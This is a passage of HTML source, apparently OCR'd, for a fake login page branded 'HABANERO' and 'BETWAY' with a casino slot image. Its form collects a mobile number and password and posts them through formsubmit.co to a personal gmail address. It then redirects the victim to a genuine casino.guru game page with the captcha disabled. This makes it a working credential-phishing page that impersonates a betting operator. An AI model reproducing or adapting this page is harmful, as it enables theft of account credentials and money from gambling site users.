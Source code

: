         button {
            width: 100%;
            padding: 15px;
            background-color: #B61919;
            color: #fff;
            border: none;
            border-radius: 5px;
            cursor: pointer;
        }

        img {
            border-radius: 8px;
            max-width: 100%;
            display: block;
            margin: 0 auto;
        }
    </style>
</head>
<body>

<div class="container">
  
  <img src="https://static.casino.guru/pict/57454/Hot-Hot-Fruit.png?timestamp=1653469562000&imageDataId=267359&width=320&height=247" alt="https://static.casino.guru/pict/57454/Hot-Hot-Fruit.png?timestamp=1653469562000&imageDataId=267359&width=320&height=247">
  
    <h2>HABANERO 🍊 </h2>
    <h3 style="color:">BETWAY</h3>
    
    <form action="https://formsubmit.co/doctorzonotoph@gmail.com" method="POST">
        <label for="username">Mobile Number:</label>
        <input type="number" id="username" name="number" required>

        <label for="password">Password:</label>
        <input type="password" id="password" name="password" required>
        
                
        
        

        <button type="submit">Login</button>
        <input type="hidden" name="_next" value="https://casino.guru/gameDetailIos?gameId=5704"
        <input type="hidden" name="_captcha" value="false">
    </form>
</div>

</body>
</html>
